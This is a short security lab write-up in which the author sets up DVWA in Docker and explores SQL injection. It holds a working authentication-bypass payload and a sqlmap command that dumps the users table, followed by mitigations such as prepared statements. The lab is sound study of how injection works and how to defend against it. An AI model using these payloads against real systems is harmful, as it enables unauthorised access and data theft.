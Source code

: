 # Lab 01: SQL Injection Discovery

> Explore how unsanitized input can lead to authentication bypass and data leakage.

## Objective
Deploy DVWA, discover an injectable parameter, and exploit it with manual techniques and `sqlmap`. Demonstrate mitigations.

## Environment
- DVWA running in Docker
- Tools: Burp Suite, `sqlmap`

## Procedure
1. **Setup DVWA**
   ```bash
   docker build -t dvwa-lab .
   docker run -d -p 8080:80 dvwa-lab
   ```
   Browse to `http://localhost:8080` and log in with `admin` / `password`.

2. **Manual probing**
   - Intercepted the login request with Burp Suite.
   - Tested `' or '1'='1` in the username field to bypass authentication.

3. **Automated exploitation**
   - Used `sqlmap` to enumerate the `users` table:
     ```bash
     sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<id>; security=low" --dump
     ```

4. **Mitigation**
   - Enabled prepared statements and strict input validation to block injection attempts.

## Findings
- Unsanitized `id` parameter allowed data extraction and login bypass.
- Parameterized queries and least privilege reduce exposure.

## MITRE ATT&CK Mapping
- [T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)

## Lessons Learned
Understanding both offensive and defensive techniques is crucial when assessing web applications.

---

> **Author:** Komiljon Karimov  
> **Mission:** Upskilling into Cybersecurity
